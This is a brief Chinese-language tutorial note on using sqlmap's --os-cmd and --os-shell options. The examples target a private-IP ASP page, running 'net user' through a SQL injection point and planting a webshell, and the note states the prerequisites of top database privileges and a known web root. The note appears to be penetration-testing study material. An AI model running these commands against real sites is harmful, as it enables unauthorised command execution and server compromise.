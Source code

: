 # 交互式命令执行

前提：注入点权限必须为最高权限

--os-cmd=command  在使用交互式参数时要知道网站的绝对路径

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --os-cmd="net user"

执行成功后，创建了一个文件，该文件被创建在网站的绝对路径下，执行玩命令自动删除。

# 写webshell

--os-shell

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --os-shell

会生成上传文件地址，通过生成网页实现写webshell的目的